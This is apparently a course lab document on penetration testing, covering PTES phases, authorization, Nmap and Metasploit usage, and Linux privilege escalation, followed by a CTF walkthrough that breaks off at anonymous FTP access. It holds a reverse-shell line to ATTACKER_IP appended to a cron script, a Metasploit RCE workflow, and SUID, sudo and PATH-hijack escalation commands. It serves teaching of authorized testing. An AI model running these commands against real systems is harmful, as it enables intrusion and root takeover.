# Lab 04: Penetration testing

## Overview

Lab 02 built a server and hardened it. Lab 03 (coming later) will cover how to find vulnerabilities systematically. This lab jumps ahead to the attacker's side: penetration testing, the controlled practice of breaking into systems to find weaknesses before a real attacker does.

The first half of this document builds the theoretical foundation: the methodology behind penetration testing, the tools that support each phase, and the techniques an attacker uses once inside a system. The second half is a practical walkthrough where those techniques are applied against a deliberately vulnerable machine to find three flags, from initial reconnaissance through privilege escalation to root.

By the end you should be able to:

- Describe the phases of a penetration test and explain what each one produces.
- Distinguish between black box, white box and gray box testing, and between internal and external tests.
- Explain why authorization and scope matter before any test begins.
- Use Nmap to discover hosts, scan ports, identify services and detect operating systems.
- Describe the Metasploit framework and how its modules map to the testing phases.
- Explain common privilege escalation techniques on Linux and why they work.
- Outline what a penetration testing report should contain.
- Apply the penetration testing phases against a real target in a controlled environment.
- Document an attack path from initial scan to root access.

---

## 1. What penetration testing is and why it exists

A vulnerability scan tells you what might be wrong. A penetration test tells you what an attacker can actually do with what is wrong. The difference matters: a scanner flags a weak SSH configuration, but a penetration tester proves that the weakness lets someone read the database. That proof is what convinces management to spend money on a fix.

Penetration testing (pentesting) is the authorized simulation of an attack against a system, network or application. The tester uses the same tools and techniques a real attacker would, but works within agreed boundaries and documents everything. The output is a report that describes what was found, how far the tester got, and what the organization should fix.

Several established methodologies structure this work:

- PTES (Penetration Testing Execution Standard) defines seven phases from pre-engagement to reporting. It is widely referenced in training and certifications.
- OSSTMM (Open Source Security Testing Methodology Manual) focuses on measuring the operational security of systems. It is more formal and metrics-driven.
- NIST SP 800-115 (Technical Guide to Information Security Testing and Assessment) is a U.S. government publication that covers penetration testing as part of a broader assessment process.

All three agree on the basic structure: define the scope, gather information, find vulnerabilities, exploit them, document the results. The phases below follow PTES because it maps most directly to a hands-on penetration test.

---

## 2. Authorization and rules of engagement

Never run a penetration test without written authorization. This is not a suggestion. Unauthorized access to a computer system is a crime in virtually every jurisdiction, regardless of intent. "I was just testing" is not a legal defense.

Before any testing begins, two things must be defined:

**Scope** determines what systems, networks and applications are included in the test and, just as important, what is excluded. A hospital might authorize testing of its public website but exclude the network segment where patient monitoring equipment runs. The scope protects both the tester and the organization.

**Rules of engagement** determine how the test is conducted. They cover questions like: can the tester use social engineering? Is denial of service allowed? What hours can testing happen? Who gets notified if critical data is found? What is the communication channel if something breaks?

These are documented in a formal agreement before the first scan runs. The document typically specifies the targets (IP ranges, domains, applications), the testing window, the type of test (black/white/gray box, internal/external), escalation contacts, and any legal protections for the tester.

---

## 3. Types of penetration tests

### 3.1 Knowledge-based classification

The amount of information the tester receives before starting changes the nature of the test entirely.

**Black box testing** gives the tester nothing: no network diagrams, no credentials, no source code, no documentation. The tester starts from zero, the same position as an external attacker who picked the target from the internet. This is the most realistic scenario but also the most expensive and time-consuming, because the tester spends significant effort just figuring out what exists. Results tend to be less conclusive because time runs out before everything is tested. This is essentially going "from external to internal," starting outside the perimeter and trying to get in.

**White box testing** gives the tester full access to information: architecture documents, source code, credentials, network maps. This allows thorough testing because no time is wasted on discovery. It is less realistic (a real attacker rarely has all this) but more complete. It is common for code reviews and internal security assessments.

**Gray box testing** sits between the two. The tester gets limited information, typically some knowledge of the infrastructure (maybe an IP range and a standard user account) but not full documentation or admin access. This balances realism with efficiency and is probably the most common approach in practice.

| Aspect | Black box | Gray box | White box |
|--------|-----------|----------|-----------|
| Information given | None | Partial (some infrastructure access) | Full (source code, diagrams, credentials) |
| Realism | Highest | Moderate | Lowest |
| Cost and time | Highest | Moderate | Lowest |
| Coverage | Lowest (time-limited) | Moderate | Highest |
| Simulates | External attacker | Insider with limited access | Full security audit |

### 3.2 Position-based classification

**External testing** targets what is visible from the internet: public websites, mail servers, VPN endpoints, DNS servers. The tester works from outside the network perimeter. This is the most common starting point for a black box engagement.

**Internal testing** starts inside the network, simulating an attacker who already has a foothold (a compromised workstation, a rogue employee, a contractor with network access). Internal tests often reveal more severe findings because internal networks tend to be less hardened than the perimeter.

A full engagement often combines both: an external test to see what can be breached from outside, followed by an internal test to see how far an attacker can move once inside.

---

## 4. The penetration testing phases

The six phases below follow the PTES structure. Each phase feeds the next: information gathering tells you what to enumerate, enumeration tells you what to scan for vulnerabilities, vulnerabilities tell you what to exploit.

### 4.1 Phase 1: Information gathering

This is the foundation. Everything that follows depends on how well you understand the target. The goal is to collect as much information as possible about the target systems, networks, people and technologies before touching anything directly.

Information gathering splits into two approaches:

**Passive reconnaissance** collects information without sending any traffic to the target. The target has no way to know it is being studied. Sources include:

- Public DNS records (domain registrations via WHOIS, DNS zone information)
- Search engines and cached pages
- Social media profiles of employees
- Job postings (they reveal what technologies the organization uses)
- Public code repositories (developers sometimes commit credentials or internal URLs)
- Shodan and Censys (search engines that index internet-facing devices and services)
- Certificate transparency logs (reveal subdomains)

This entire discipline is called OSINT (Open Source Intelligence): gathering information from publicly available sources. It is not hacking. It is research. And it is often the phase that determines whether the rest of the test succeeds or fails.

**Active reconnaissance** sends traffic directly to the target. The target can detect this activity in its logs. This is where tools like Nmap come in. Active reconnaissance includes:

- Port scanning to find open services
- Banner grabbing to identify software versions
- DNS enumeration to find subdomains and internal hostnames
- Network mapping to understand the topology

The line between passive and active matters legally and operationally. Passive reconnaissance can often begin before the formal testing window, because it does not touch the target. Active reconnaissance falls within the scope and rules of engagement.

### 4.2 Phase 2: Enumeration

Enumeration takes the broad picture from phase 1 and narrows it down to specific, actionable detail. Where information gathering asks "what exists?", enumeration asks "what exact version is running, what is its configuration, and what does it expose?"

Key enumeration activities:

- Service version detection: identifying not just that port 80 is open, but that it runs Apache 2.4.49 on Ubuntu. The version number is what links a service to known vulnerabilities.
- User enumeration: finding valid usernames through login error messages, SMTP VRFY commands, or SNMP queries.
- Share enumeration: listing SMB shares, NFS exports, or FTP directories that might be accessible.
- SNMP enumeration: extracting system information, network interfaces and routing tables from devices that expose SNMP with default community strings.

The primary tool for service enumeration is Nmap with the `-sV` flag, which probes open ports to determine the service and version. Section 5 covers Nmap in depth.

### 4.3 Phase 3: Vulnerability assessment

With a list of services, versions and configurations in hand, the next step is to determine which of them have known vulnerabilities. This is where the tester connects what was found to public vulnerability databases.

A vulnerability is a weakness that can be exploited. Not every misconfiguration is exploitable, and not every CVE (Common Vulnerabilities and Exposures) entry has a working exploit. The tester's job is to identify which vulnerabilities are real, reachable and exploitable in this specific environment.

RCE (Remote Code Execution) is the most dangerous class of vulnerability worth watching for. An RCE lets an attacker run arbitrary commands on the target machine. If a web server has an RCE vulnerability, the attacker can go from sending HTTP requests to executing system commands, which is the bridge between "I can see the website" and "I control the server."

Sources for vulnerability information:

- CVE database (cve.org): the standard catalog of publicly disclosed vulnerabilities
- NVD (National Vulnerability Database, nvd.nist.gov): adds severity scores (CVSS) and analysis to CVE entries
- Exploit-DB (exploit-db.com): a collection of public exploits and proof-of-concept code
- Vendor security advisories: patches and bulletins from software vendors

Automated scanners like Nessus, OpenVAS and Nikto can accelerate this phase, but they produce false positives. A scanner might flag something as vulnerable based on version alone, even though the specific configuration is not affected. Manual verification is always needed.

Note: vulnerability assessment is the core topic of Lab 03, which will cover scanning tools and methodology in more depth. Here the focus is on how it fits into the penetration testing workflow.

### 4.4 Phase 4: Exploitation

Exploitation is where the tester proves that a vulnerability is real by using it to gain unauthorized access. This is the phase most people picture when they think of hacking, but it only works because of the three phases that came before it.

The goal is not to cause damage. It is to demonstrate impact: show that this vulnerability lets an attacker read the customer database, pivot to the internal network, or take full control of the server. The proof is what makes the report convincing.

Common exploitation approaches:

- Using a known exploit against a vulnerable service version (often through Metasploit, covered in section 6)
- Exploiting weak or default credentials
- Abusing misconfigurations (an open admin panel, a writable file share, an exposed API)
- Chaining multiple lower-severity issues to achieve a higher-severity impact

A successful exploit typically results in a shell: a command-line interface on the target machine. The type of shell matters:

- A bind shell opens a port on the target and waits for the attacker to connect.
- A reverse shell makes the target connect back to the attacker. This is more common in practice because it bypasses firewall rules that block incoming connections.

The shell might run as a low-privilege user (www-data for a web server exploit, for example). Getting from that limited user to full system control is the next phase.

### 4.5 Phase 5: Post-exploitation

Post-exploitation is what happens after the initial foothold. The tester now has access to the system and needs to determine how much damage a real attacker could do from this position.

Activities in this phase include:

- Privilege escalation: moving from a low-privilege user to root or administrator (section 7 covers this in detail)
- Lateral movement: using the compromised machine to reach other systems on the network
- Data exfiltration: identifying and extracting sensitive data to prove it was accessible
- Persistence: demonstrating that an attacker could maintain access even after reboots or password changes (in a real test, this is documented but usually not implemented beyond proof of concept)
- Credential harvesting: extracting passwords, hashes, tokens or SSH keys from the compromised system

In a CTF or engagement, this is the phase where you move from an initial shell to finding what matters: flags, sensitive data, proof of deeper access. Each target typically requires a different level of access or lateral thinking to reach.

### 4.6 Phase 6: Reporting

A penetration test that is not documented is just hacking. The report is the actual deliverable, the thing the client pays for. A good report serves two audiences: technical staff who need to fix the issues, and management who need to understand the business risk.

A penetration testing report typically contains:

1. Executive summary: a non-technical overview of the findings, the overall risk level, and the most critical recommendations. Written for decision-makers who will not read the technical details.
2. Scope and methodology: what was tested, what approach was used (black/white/gray box, internal/external), what tools were employed, and the testing window.
3. Findings: each vulnerability documented with its severity (usually CVSS score), a description of the issue, proof of exploitation (screenshots, command output), the potential business impact, and a specific remediation recommendation.
4. Attack narrative: a step-by-step account of how the tester moved through the system. This shows how individual vulnerabilities chain together and helps the client understand the attacker's path.
5. Remediation priorities: a ranked list of fixes, ordered by risk and effort.

Findings should be saved throughout the test, not reconstructed from memory at the end. Saving Nmap reports (using output flags like `-oN` or `-oA`) means results are available for the report without having to re-scan.

---

## 5. Nmap: network scanning in depth

Nmap (Network Mapper) is the most widely used tool for network discovery and security auditing. It sends specially crafted packets to target hosts and analyzes the responses to determine what hosts are up, what ports are open, what services are running, and what operating systems are in use.

Understanding Nmap well is not optional for penetration testing. It is the primary tool for phases 1 and 2 (information gathering and enumeration), and its output feeds directly into phase 3 (vulnerability assessment).

### 5.1 How Nmap works

Nmap sends packets and reads responses. The type of packet it sends, the port it targets, and how it interprets the response define the scan type. The basic workflow is:

1. Host discovery: is the target alive?
2. Port scanning: which ports are open?
3. Service detection: what software is listening on each port?
4. OS detection: what operating system is the target running?

Each step can be run independently or combined. A full scan with all steps takes longer but produces the most complete picture.

### 5.2 Basic syntax

```
nmap [scan type] [options] [target]
```

Targets can be specified as:

- A single IP: `192.168.1.1`
- A range: `192.168.1.1-254`
- A subnet: `192.168.1.0/24`
- A hostname: `target.example.local`
- A file of targets: `-iL targets.txt`

### 5.3 Host discovery

Before scanning ports, Nmap checks whether the host is alive. On a local network it uses ARP requests. On remote networks it sends a combination of ICMP echo, TCP SYN to port 443, TCP ACK to port 80, and ICMP timestamp.

| Flag | What it does |
|------|-------------|
| `-sn` | Ping scan only, skip port scanning. Useful for mapping which hosts are alive on a network. |
| `-Pn` | Skip host discovery, treat all hosts as alive. Use this when ICMP is blocked and you know the target exists. |
| `-n` | Skip DNS resolution. Faster when you do not need hostnames. |

A common starting combination is `-Pn` and `-n` together: skip DNS lookups (faster) and assume the target is alive (avoids missing hosts that block ping).

### 5.4 Scan types

The scan type determines what kind of packets Nmap sends and how it interprets the responses.

**TCP SYN scan (`-sS`)**

The default and most common scan type. Nmap sends a SYN packet (the first step of the TCP three-way handshake). If the target responds with SYN-ACK, the port is open. If it responds with RST, the port is closed. Nmap never completes the handshake, so the connection is never fully established. This makes it faster and slightly stealthier than a full connect scan. Requires root/sudo privileges because it crafts raw packets.

**TCP connect scan (`-sT`)**

Completes the full TCP three-way handshake. Slower and more visible in logs than a SYN scan, but does not require root privileges. This is what Nmap uses when you run it without sudo.

**UDP scan (`-sU`)**

Scans UDP ports. Much slower than TCP scans because UDP is connectionless: there is no handshake, so Nmap has to wait for a response or a timeout for each port. An open UDP port might simply not respond, which makes it hard to distinguish from a filtered port. Important services like DNS (53), SNMP (161) and DHCP (67/68) use UDP.

**Service version detection (`-sV`)**

Not a scan type in the strict sense, but a probe that identifies what software and version is running on open ports. After finding an open port, Nmap sends specific probes and matches the responses against its database of service signatures. This is what makes the enumeration phase useful: knowing that port 80 runs Apache 2.4.49 rather than just "HTTP" is what connects a service to a specific CVE.

**Default script scan (`-sC`)**

Runs Nmap's default set of NSE (Nmap Scripting Engine) scripts against discovered services. These scripts perform safe checks: grabbing HTTP titles, checking for anonymous FTP access, enumerating SMB shares, testing for known misconfigurations. Equivalent to `--script=default`.

### 5.5 Timing templates

Nmap's timing templates control how fast it sends packets. Faster is noisier; slower is stealthier.

| Template | Name | Use case |
|----------|------|----------|
| `-T0` | Paranoid | IDS evasion. Extremely slow. |
| `-T1` | Sneaky | IDS evasion. Very slow. |
| `-T2` | Polite | Reduced speed to avoid overwhelming the target. |
| `-T3` | Normal | Default. Balanced speed. |
| `-T4` | Aggressive | Faster, assumes a reliable network. Good for local networks and CTFs. |
| `-T5` | Insane | Maximum speed. May miss results on unreliable networks. |

For lab and CTF environments, `-T4` is a reasonable default. In a real engagement against production systems, `-T3` or lower avoids triggering rate-limiting or crashing fragile services.

### 5.6 Port specification

By default, Nmap scans the 1,000 most common ports. You can change this:

| Flag | What it does |
|------|-------------|
| `-p 22,80,443` | Scan specific ports |
| `-p 1-1024` | Scan a range |
| `-p-` | Scan all 65,535 ports. Slow but thorough. |
| `-F` | Fast scan: only the 100 most common ports |
| `--top-ports 200` | Scan the 200 most common ports |

A full port scan (`-p-`) is important when the target might run services on non-standard ports. A web application on port 8080 or an SSH server on port 2222 will not appear in a default scan.

### 5.7 Output formats

Nmap can save results in multiple formats. Always save your scans during a penetration test.

| Flag | Format | Use |
|------|--------|-----|
| `-oN scan.txt` | Normal | Human-readable text output |
| `-oX scan.xml` | XML | Machine-parseable, good for importing into other tools |
| `-oG scan.gnmap` | Grepable | One host per line, easy to filter with grep and awk |
| `-oA scan` | All formats | Saves all three formats at once (scan.nmap, scan.xml, scan.gnmap) |

The `-oA` flag is the most practical choice: one command, three files, nothing lost.

### 5.8 OS detection and advanced options

| Flag | What it does |
|------|-------------|
| `-O` | Attempt OS detection based on TCP/IP fingerprinting |
| `-O --osscan-guess` | Be more aggressive with OS guessing when results are uncertain |
| `-A` | Aggressive scan: combines `-O` (OS detection), `-sV` (version detection), `-sC` (default scripts), and traceroute. Convenient but loud. |
| `-v` | Increase verbosity. Show results as they are found instead of waiting until the scan finishes. |
| `--reason` | Show why Nmap classified each port as open, closed or filtered. Useful for understanding firewall behavior. |
| `--open` | Show only open ports in the output. Reduces noise when scanning large networks. |

### 5.9 NSE (Nmap Scripting Engine)

The Nmap Scripting Engine extends Nmap with scripts written in Lua. There are hundreds of scripts organized into categories.

| Category | What it covers |
|----------|---------------|
| `default` | Safe, useful scripts that run with `-sC` |
| `discovery` | Additional information gathering |
| `vuln` | Vulnerability checks |
| `exploit` | Actual exploitation attempts (use with caution) |
| `brute` | Brute-force password attacks |
| `auth` | Authentication-related checks |

Running scripts:

```bash
# Run a specific script
nmap --script http-title 192.168.1.1

# Run all scripts in a category
nmap --script vuln 192.168.1.1

# Run multiple categories
nmap --script "default,vuln" 192.168.1.1

# Pass arguments to a script
nmap --script http-brute --script-args http-brute.path=/admin 192.168.1.1
```

Scripts are stored in `/usr/share/nmap/scripts/` on most Linux systems. You can list them, read their descriptions, and update the database with `nmap --script-updatedb`.

### 5.10 Evasion techniques

In real engagements, firewalls and intrusion detection systems (IDS) may block or alert on scans. Nmap provides several evasion options:

| Flag | What it does |
|------|-------------|
| `-f` | Fragment packets into 8-byte pieces to confuse packet filters |
| `-D RND:5` | Send decoy scans from random IP addresses alongside the real scan |
| `-g 53` | Use port 53 (DNS) as the source port, which some firewalls trust |
| `--data-length 25` | Add random data to packets to avoid matching default Nmap signatures |

These are advanced techniques. In a lab environment they are rarely needed, but understanding them helps explain why some real-world scans fail and how defenders detect scanning activity.
Each step narrows the focus and increases the depth. Save every scan with `-oA`.

---

## 6. Metasploit framework

Metasploit is the most widely used exploitation framework. It provides a structured way to find, configure and launch exploits against vulnerable targets, and to manage the sessions that result from successful exploitation.

### 6.1 What Metasploit is

Metasploit is an open-source project (with a commercial Pro version) that contains a database of exploits, payloads, encoders and auxiliary tools. Instead of searching the internet for individual exploit scripts and hoping they work, Metasploit provides a consistent interface: select an exploit, set the target, choose a payload, and run it.

The framework ships with Kali Linux and can be installed on most Linux distributions. The command-line interface is `msfconsole`.

### 6.2 Architecture

Metasploit is organized into modules, each designed for a specific task:

**Exploits** are the modules that take advantage of a vulnerability. Each exploit targets a specific software version and vulnerability. For example, `exploit/multi/http/apache_normalize_path_rce` targets the path traversal vulnerability in Apache 2.4.49-2.4.50 (CVE-2021-41773 / CVE-2021-42013).

**Payloads** are the code that runs on the target after a successful exploit. The most common payloads are:

- `generic/shell_bind_tcp`: opens a port on the target and waits for a connection
- `generic/shell_reverse_tcp`: connects back to the attacker's machine
- `meterpreter/reverse_tcp`: a Metasploit-specific advanced shell with built-in features for file transfer, privilege escalation, pivoting and screenshot capture

Meterpreter runs entirely in memory and communicates over encrypted channels, making it harder to detect than a plain shell.

**Auxiliary modules** handle tasks that are not exploitation: scanning, fuzzing, sniffing, denial of service. Examples include port scanners, brute-force login modules, and service enumeration tools.

**Post-exploitation modules** run after gaining access. They automate tasks like credential harvesting, privilege escalation checks, and system enumeration.

**Encoders** obfuscate payloads to avoid detection by antivirus and intrusion detection systems.

### 6.3 Basic workflow

```bash
# Start Metasploit
msfconsole

# Search for an exploit by name or CVE
search apache 2.4.49
search cve:2021-41773

# Select an exploit
use exploit/multi/http/apache_normalize_path_rce

# View the exploit's options
show options

# Set required options
set RHOSTS 192.168.122.131
set RPORT 80
set LHOST 192.168.122.1

# Choose a payload
set PAYLOAD linux/x64/shell_reverse_tcp

# Run the exploit
exploit
```

The workflow maps directly to the penetration testing phases: search is phase 3 (vulnerability assessment), configuring and running the exploit is phase 4 (exploitation), and what you do in the resulting shell is phase 5 (post-exploitation).

### 6.4 The Metasploit database

Metasploit can store scan results and session data in a PostgreSQL database. This is useful when testing multiple targets or working in a team.

```bash
# Check database status
db_status

# Import Nmap results
db_import /path/to/scan.xml

# List discovered hosts and services
hosts
services
```

Importing Nmap XML output into Metasploit connects the reconnaissance and exploitation phases: you scan with Nmap, import the results, and Metasploit can suggest matching exploits.

---

## 7. Privilege escalation

A successful exploit often gives you a shell as a low-privilege user. On a Linux system, that might be `www-data` (the user running the web server) or a service account with limited permissions. The target is `root`, the user who can do anything on the system.

Privilege escalation (privesc) is the process of going from that limited user to root. It is the difference between "I can read the web server's files" and "I own the machine."

There are two types:

- Vertical escalation: gaining a higher privilege level (user to root)
- Horizontal escalation: gaining access to another user at the same level (one regular user to another who has access to different resources)

### 7.1 SUID binaries

On Linux, every file has permission bits that control who can read, write and execute it. SUID (Set User ID) is a special permission bit that makes a program run with the permissions of the file's owner rather than the user who launched it.

If a binary is owned by root and has the SUID bit set, anyone who runs it gets root privileges for the duration of that program's execution. Many system utilities need this (for example, `passwd` needs root access to modify `/etc/shadow`). The problem is when SUID is set on a binary that can be abused to run arbitrary commands.

Finding SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

This searches the entire filesystem for files with the SUID bit set and suppresses error messages for directories you cannot access.

Once you have a list, the question is: can any of these binaries be used to escape to a shell or read files you should not have access to? GTFOBins (gtfobins.github.io) is a curated database of Unix binaries that can be exploited for privilege escalation, file reads, shell escapes, and other abuses. If `find`, `vim`, `python` or `nmap` appear in your SUID list, check GTFOBins for the technique.

Example: if `find` has the SUID bit and is owned by root:

```bash
find . -exec /bin/sh -p \;
```

This executes a shell that inherits the SUID privileges, giving you a root shell.

### 7.2 Sudo misconfigurations

The `sudo` command lets users run specific programs as root (or another user) without knowing the root password. The configuration is in `/etc/sudoers`, and each entry specifies which commands a user or group can run.

Check what you can run:

```bash
sudo -l
```

Dangerous entries look like:

```
user ALL=(ALL) NOPASSWD: /usr/bin/vim
user ALL=(ALL) NOPASSWD: /usr/bin/python3
user ALL=(ALL) NOPASSWD: /usr/bin/less
```

Any program that can spawn a shell or execute arbitrary commands is a privesc vector when it can be run as root with sudo. Vim can run `:!sh`, Python can run `os.system('/bin/sh')`, and `less` can execute commands with `!sh`.

Again, GTFOBins documents the exact technique for each binary.

### 7.3 Cron job exploitation

Cron is the Linux task scheduler. It runs commands at specified intervals, often as root. The cron configuration is in:

- `/etc/crontab` (system-wide)
- `/etc/cron.d/` (drop-in files)
- `/var/spool/cron/crontabs/` (per-user crontabs)

If a cron job runs a script as root, and that script is writable by your user, you can modify the script to do anything with root privileges the next time cron executes it.

```bash
# Check system crontab
cat /etc/crontab

# Look for writable scripts referenced by cron jobs
ls -la /path/to/script-referenced-in-crontab
```

If the script is writable:

```bash
echo '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /path/to/script
```

This appends a reverse shell to the script. The next time cron runs it as root, you get a root shell.

### 7.4 PATH hijacking

When you type a command like `service`, the shell searches through the directories listed in the `PATH` environment variable to find the executable. It uses the first match.

If a privileged script calls a command without its full path (e.g., `service apache2 restart` instead of `/usr/sbin/service apache2 restart`), and if you can place a directory early in the PATH, you can create a fake binary that runs instead of the real one.

```bash
# Check the current PATH
echo $PATH

# If /tmp is in the PATH before /usr/sbin, create a fake binary
echo '#!/bin/bash' > /tmp/service
echo '/bin/bash -p' >> /tmp/service
chmod +x /tmp/service

# When the privileged script calls "service", it runs your version
```

This works because of how the shell resolves commands. The defense is to always use absolute paths in scripts that run with elevated privileges.

### 7.5 Kernel exploits

When everything else fails, kernel exploits target vulnerabilities in the Linux kernel itself. A successful kernel exploit typically gives instant root access.

The approach:

1. Identify the kernel version: `uname -a`
2. Search for known exploits for that version (Exploit-DB, searchsploit)
3. Compile and run the exploit on the target

A well-known example is Dirty COW (CVE-2016-5195), which affected Linux kernels from 2007 to 2016. It exploited a race condition in the memory subsystem to write to read-only files, allowing a regular user to gain root access.

Kernel exploits are a last resort for two reasons: they can crash the target system (unacceptable in a production penetration test), and they are specific to kernel versions. In a lab or CTF environment the stakes are lower, but in a real engagement you would escalate through other paths first.

### 7.6 Automated enumeration

Manually checking every privesc vector is slow. Several scripts automate the process:

- LinPEAS (linpeas.sh): the most comprehensive automated privilege escalation checker for Linux. It checks SUID binaries, sudo permissions, cron jobs, writable paths, kernel version, capabilities, and dozens of other vectors. Color-coded output highlights high-probability findings.
- LinEnum: a lighter alternative that covers the most common checks.
- linux-exploit-suggester: focuses specifically on kernel exploits based on the running kernel version.

In a real test, you would transfer one of these scripts to the target and run it immediately after gaining initial access to see what privesc paths are available.

---

## 8. Tying it together

The six phases are not isolated steps. They are a cycle. Information gathered in phase 1 feeds the enumeration in phase 2. A service version discovered in enumeration leads to a vulnerability in phase 3. The exploit in phase 4 lands you on the system. Post-exploitation in phase 5 might reveal credentials for another machine, which sends you back to phase 1 for that new target.

The practical walkthrough below follows this loop against a real target. It starts with a network scan, moves through service enumeration and vulnerability discovery, chains an exploit into credential access, and ends with privilege escalation to root. Each flag required going one level deeper.

---

## 9. Practical walkthrough: CTF on a vulnerable machine

This section documents the full attack path against a deliberately vulnerable Linux machine in a CTF environment. The machine had three flags at increasing difficulty:

| Flag | Points | What it tests |
|------|--------|---------------|
| Perimeter Breach | 50 | Reconnaissance and initial access |
| Boots on the Ground | 100 | Credential discovery and remote login |
| Full Command | 150 | Privilege escalation to root |

The test was gray box: the target IP was known (10.10.10.23), the operating system was identified as Linux, and access was through a VPN. Everything else had to be discovered.

### 9.1 Connecting to the target network

The target machine sits on an isolated network, accessible only through a VPN tunnel. OpenVPN handles the connection.

```bash
sudo openvpn empire-eu-free-1.ovpn
```

This runs in the foreground and keeps the tunnel open as long as the terminal stays open. Look for the line `Initialization Sequence Completed` to confirm the connection is up. Open a second terminal for the actual work.

Verify connectivity with a ping:

```bash
ping -c 4 10.10.10.23
```




If ping gets no response, that does not necessarily mean the host is down. ICMP might be blocked by a firewall. The next step handles that.

### 9.2 Phase 1: information gathering with Nmap

Start with a quick scan to confirm the host is alive and find open ports. The flags `-Pn` (treat the host as alive, skip ICMP discovery) and `-n` (skip DNS resolution) keep things fast and avoid issues with blocked ping.

```bash
nmap -sS -Pn -n -T4 -p 80 10.10.10.23
```

The `-p 80` targets a single common port to confirm quickly that the host responds. Once you see it come back, move on to a broader scan.


### 9.3 Phase 2: enumeration

Now scan more ports and grab service versions. This is where `-sV` (version detection) and `-sC` (default NSE scripts) come in.

```bash
nmap -sV -sC -Pn -n -T4 -p 21,22,80 10.10.10.23
```

Note the port syntax: commas separate the ports, no spaces. Writing `-p 21 22 80` would make Nmap interpret 22 and 80 as separate target hosts (0.0.0.22 and 0.0.0.80), scanning only port 21 on each. This is a common mistake.



The scan revealed three services:

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | ProFTPD 1.3.5 |
| 22 | SSH | OpenSSH 6.0p1 Debian 4+deb7u4 |
| 80 | HTTP | Apache 2.2.22 (Debian), PHP 5.4.45 |

All three versions are old, which is a good sign for finding vulnerabilities. The Nmap scripts also revealed that the FTP server allows anonymous login, an immediate lead to follow.

### 9.4 Inspecting the web server

Before going after FTP, check what is on port 80. Open the target IP in a browser.




The page itself looked like a generic dashboard. Nothing interactive, no login form. But the page source told a different story.

Always inspect the HTML source (Ctrl+U or right-click, View Source). Look for two things: comments and JavaScript files. Developers leave debug notes, internal URLs, version numbers, and sometimes credentials in HTML comments that never get cleaned up before deployment.



In this case, the source contained a comment with a maintenance log mentioning an FTP upgrade and a legacy authentication token. Useful context, but the real entry point was FTP.

### 9.5 Anonymous FTP access (flag 1: Perimeter Breach)

The Nmap scan confirmed anonymous FTP login. Connect to it:

```bash
ftp 10.10.10.23
```

When prompted for a username, type `anonymous`. For the password, anything works (or just press Enter). Early FTP servers commonly had an anonymous user for public file distribution, no authentication required. It simplified access but meant anyone could browse those files.

